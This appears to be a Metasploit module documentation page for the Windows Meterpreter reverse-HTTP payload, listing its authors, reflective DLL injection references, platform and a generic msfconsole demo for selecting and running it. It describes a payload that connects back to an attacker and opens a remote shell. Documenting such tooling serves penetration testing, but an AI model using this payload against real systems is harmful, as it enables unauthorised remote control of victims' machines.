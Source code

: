 ## Windows Meterpreter Shell, Reverse HTTP Inline

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/meterpreter_reverse_http

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter_reverse_http
msf payload(meterpreter_reverse_http) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_http) > set TARGET <target-id>
msf payload(meterpreter_reverse_http) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_http) > run
```
    
    